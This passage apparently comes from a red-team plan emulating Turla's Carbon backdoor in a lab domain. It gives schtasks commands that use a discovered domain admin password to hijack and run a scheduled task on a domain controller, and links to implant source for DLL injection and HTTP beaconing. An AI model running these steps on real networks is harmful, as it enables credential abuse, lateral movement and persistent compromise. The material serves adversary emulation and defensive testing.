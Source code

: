 * Wait for the command to return and then modify a scheduled task using the
discovered password for the domain admin `Frieda` (<https://www.cisa.gov/uscert/ncas/analysis-reports/ar20-303a>).

```bat
schtasks /Change /S bannik /U skt\Frieda /P Password3! /TN "\Microsoft\Windows\Customer Experience Improvement Program\Consolidator" /TR %SystemRoot%\System32\wmimetricsq.exe
```

* Wait for the command to return and then start the modified scheduled task on
the domain controller.

```bat
schtasks /Run /S bannik /U skt\Frieda /P Password3! /TN "\Microsoft\Windows\Customer Experience Improvement Program\Consolidator" /I
```

:arrow_right: Return to your RDP session to bannik.

* Open File Explorer and browse to `C:\Program Files\Windows NT\2028`. Validate
the existence of a `dsntport.dat` file. The log file should be growing every
~20 seconds.

### :moyai: Source Code

* [CARBON-DLL installer](../../Resources/Carbon/CarbonInstaller/README.md)
  * [Drop components](../../Resources/Carbon/CarbonInstaller/Dropper/src/file_handler.cpp#L178)
  * [Create Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L170)
    * Service registry edits: [1](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L230), [2](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L284)
  * [Start Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L354)
  * [Loader Service](../../Resources/Carbon/CarbonInstaller/Loader/src/service.cpp)
* [CARBON-DLL Orchestrator](../../Resources/Carbon/Orchestrator/README.md)
  * [Comms Lib DLL Injection](../../Resources/Carbon/Orchestrator/src/injection.cpp#L454)
  * [Task Execution](../../Resources/Carbon/Orchestrator/src/tasking.cpp#L388)
* [CARBON-DLL Comms Lib](../../Resources/Carbon/CommLib/README.md)
  * [Beacon and task/payload retrieval over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L313)
  * [Upload task output over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L342)
  * [Peer to peer communications over named pipes](../../Resources/Carbon/CommLib/src/NamedPipeP2p.cpp)

### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>
* <https://www.cisa.gov/uscert/ncas/analysis-reports/ar20-303a>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://www.gdata.pt/blog/2015/01/23926-analysis-of-project-cobra>

<br>
